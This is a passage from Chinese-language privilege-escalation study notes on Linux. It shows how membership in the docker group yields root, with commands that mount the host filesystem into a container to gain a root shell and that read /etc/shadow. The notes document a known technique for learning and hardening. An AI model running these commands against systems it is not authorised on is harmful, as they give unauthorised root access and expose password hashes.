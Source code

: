 6. 写ssh公钥

### 利用第三方服务提权

#### Docker 用户组提权

Docker 运行的所有命令都是需要 sudo 来运行，那是因为 docker 需要 root 权限才能跑。

Docker 监护进程有一个特性，它能被允许访问 root 用户或者是在 docker 组里面的所有用户，这就如同拥有 root 的访问权限。

如果一个服务器有一个普通的用户，并且这个用户加入了 docker 组，则这个用户已经是 root 了。

**方法一**

**环境搭建**

```bash
adduser test-d
usermod -G docker test-d
newgrp docker
```

Docker 组内用户执行命令的时候会自动在所有命令前添加 sudo

因为设计或者其他的原因，Docker 给予所有 docker 组的用户相当大的权力（虽然权力只体现在能访问 /var/run/docker.sock 上面）

**复现**

默认情况下，Docker 软件包是会默认添加一个 docker 用户组的。

Docker 守护进程会允许 root 用户和 docker组用户访问 Docker，给用户提供 Docker 权限和给用户无需认证便可以随便获取的 root 权限差别不大。

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

![image-20230926172758108](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230926172758108.png)

参数 -v 将容器外部的目录 / 挂载到容器内部 /hostOS

这个容器的启动脚本是 exploit.sh，主要内容是：chroot 到容器的 /hostOS （也就是宿主机的 /），然后获取到宿主机的 root 权限。

**方法二**

**环境搭建**

```bash
adduser test-d
usermod -G docker test-d
newgrp docker
```

**复现**

将 /etc/ 目录挂载进 Docker，查看 shadow 和 passwd

```bash
docker run -v /etc/:/mnt -it alpine
cd /mnt
cat shadow
```

